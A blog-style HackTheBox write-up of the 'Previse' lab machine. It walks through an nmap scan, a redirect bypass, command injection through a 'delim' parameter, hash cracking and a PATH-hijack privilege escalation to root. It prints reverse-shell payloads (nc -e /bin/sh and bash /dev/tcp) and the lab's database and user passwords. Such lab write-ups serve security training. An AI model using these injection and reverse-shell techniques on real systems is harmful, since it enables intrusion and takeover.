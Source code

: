 +++
author = "Khaled Ngm"
title = "Previse write-up (HackTheBox)"
date = "2022-07-04"
description = ""
+++
# Previse write-up HackTheBox
![previse](/images/1.png)
### 1. Port Scan Enumuration
### 2. Exploitation
### 3. Privilege Escalation
* ### USER
* ### ROOT

## Port Scan (Nmap)
* First We will scan target with nmap ``nmap -sV -sC 10.10.11.104``
* I found two open ports ``ssh`` and ``http``
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 03:00 EDT
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.79% done; ETC: 03:05 (0:03:08 remaining)
Stats: 0:06:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 03:06 (0:00:07 remaining)
Nmap scan report for previse.htb (10.10.11.104)
Host is up (0.45s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE          VERSION
22/tcp   open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|_  256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
80/tcp   open     http             Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
3269/tcp filtered globalcatLDAPssl
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.82 seconds

```
## Exploitation
* I found login Web page at http server.
* let's try to fuzz directories with DirSearch .
``python3 dirsearch.py -u http://10.10.11.104/`` and I have found an interesting directory called ``nav.php``

     ![](/blog/images/2.png)
*  I tried to create account or visit any another links but pages have been redirected to ``login.php`` with ``302 Found``
* So I tried to edit response with ``200 ok`` and send it back to the server .

![](/images/3.png)

* And I got a registration form , Then I created a new account.
* When I logged in I found visited ``files`` menu and found ``SITEBACKUP.ZIP`` file .
*  When I extracted The file I found interesting files such as ``config.php`` that contian db credentials and more interesting php file called ``log.php`` , let's check source code.
* I found ``exec`` function that take delim via post request run python script without any validation .
* I went to log file page MANAGEMENT MENU >> LOG DATA and opened burp broxy to see request.
* So I listened on the server with ``nc -nlvp 9999`` and tried to inject ``delim`` with reverse shell ``delim=comma;nc+-e+/bin/sh+[ip]+[port]`` and finally I got a shell .
* lets use ``python -c "import pty;pty.spawn('/bin/sh')"`` to get interactive shell .
## Privilege escalation (User)
* Now we are ``www-data`` we will try to escalat our privilages .
* Let's connect to database with ``username`` and ``password`` located in ``config.php`` file , ``mysql -u root -D previse -p`` and then password ``mySQL_p@ssw0rd!:)``.
* Then I found a Table Called ``account`` , let's show table content with ``select * from accounts;``
* And I found a user called ``m4lwhere`` that already exist on OS , and I tried to Identify hash type with hashID .
*When I got the mode of hash I used ``hashcat`` to decrypt it with ``hashcat -a 3 -m 500 hash.txt /wordlist_path`` that retrieve ``ilovecody112235!`` password .
* Let's connect with ``ssh`` to get user flag ``ssh m4lwhere@10.10.11.104``
## Privilege escalation (Root)
* First we will apply ``sudo -l`` command to see what commands this user can run with high privileges .
* user can run ``/opt/scripts/access_backup.sh`` as a root .
* When I checked content I found ``gzip`` command run without full path.
* let's create file called ``gzip`` with bash reverse shell content ``bash -i >& /dev/tcp/ip/port 0>&1`` at ``/tmp`` directory and add this file to PATH ``export PATH="/tmp:$PATH"`` and give it a permission ``chmod +x /tmp/gzip``.
* Now we can listen on port and run command ``sudo /opt/scripts/access_backup.sh`` .
* Finally we Got a root shell . :).
# Thanks
